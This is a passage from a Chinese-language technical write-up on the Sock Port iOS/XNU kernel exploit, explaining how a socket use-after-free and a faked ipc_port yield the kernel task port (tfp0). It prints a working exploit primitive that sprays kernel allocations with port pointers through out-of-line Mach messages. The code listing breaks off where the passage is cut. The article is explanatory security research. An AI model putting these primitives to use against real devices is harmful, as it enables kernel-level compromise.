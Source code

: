 随后我们通过读取自身进程 `Task port` 的 `bsd_info` 以及 `task_prev` 枚举所有进程，直到 pid = 0 我们便拿到了 Kernel Task，从 Kernel Task 中取出 Kernel Map 赋予我们伪造的 `ipc_port`，此时我们便将伪造的 `ipc_port` 伪装成了一个真正的 `Kernel Task port`。

以上是对 Sock Port 的一个概述，详细的利用过程涉及到 XNU 的诸多知识，且每一步都富含细节，到这里读者只需要对该漏洞有个整体认识，在接下来的文章中会一步步分析这些 Primitive 的原理，以及组合 Primitives 实现 tfp0 的详细过程。

# 获取 Port Address 的思路
漏洞的第一个关键是获取到当前进程的 Task port 地址，这也是本文重点分析的内容。常规情况下，在用户态我们只能拿到 Task port 的句柄，若要拿到地址，有两个思路：
1. 泄露当前进程的 port 索引表，并通过句柄查询 port 的实际地址；
2. 通过某种方式迫使内核分配 Task port 的指针到我们可读的内核区域，即 UAF 方式。

事实上当前进程的 port 索引表是被 Task port 所间接引用的，即常规情况下我们需要先知道 Task port address 才能获取到 port 索引表的位置，因此方式 1 不可行。实现方式 2 的关键点有两个：UAF & 分配 Task port pointer，前者已经通过 Socket UAF 满足，现在只差后者。

## 迫使内核分配 Task port pointer
在 Sock Port 中有一段关键代码，用于为指定的 `target port` 句柄在内核中分配可控数量的 `ipc_port` 指针：
```c
// from Ian Beer. make a kernel allocation with the kernel address of 'target_port', 'count' times
mach_port_t fill_kalloc_with_port_pointer(mach_port_t target_port, int count, int disposition) {
    mach_port_t q = MACH_PORT_NULL;
    kern_return_t err;
    err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &q);
    if (err != KERN_SUCCESS) {
        printf("[-] failed to allocate port\n");
        return 0;
    }
    
    mach_port_t* ports = malloc(sizeof(mach_port_t) * count);
    for (int i = 0; i < count; i++) {
        ports[i] = target_port;
    }
    
    struct ool_msg* msg = (struct ool_msg*)calloc(1, sizeof(struct ool_msg));
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)sizeof(struct ool_msg);
    msg->hdr.msgh_remote_port = q;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    
    msg->body.msgh_descriptor_count = 1;
    
    msg->ool_ports.address = ports;
    msg->ool_ports.count = count;
    msg->ool_ports.deallocate = 0;
    msg->ool_ports.disposition = disposition;
    msg->ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg->ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    
    err = mach_msg(&msg->hdr,
                   MACH_SEND_MSG|MACH_MSG_OPTION_NONE,
                   msg->hdr.msgh_size,
                   0,
                   MACH_PORT_NULL,
                   MACH_MSG_TIMEOUT_NONE,
                   MACH_PORT_NULL);
    
    if (err != KERN_SUCCESS) {
        printf("[-] failed to send message: %s\n", mach_error_string(err));
        return MACH_PORT_NULL;
    }
    
    return q;
```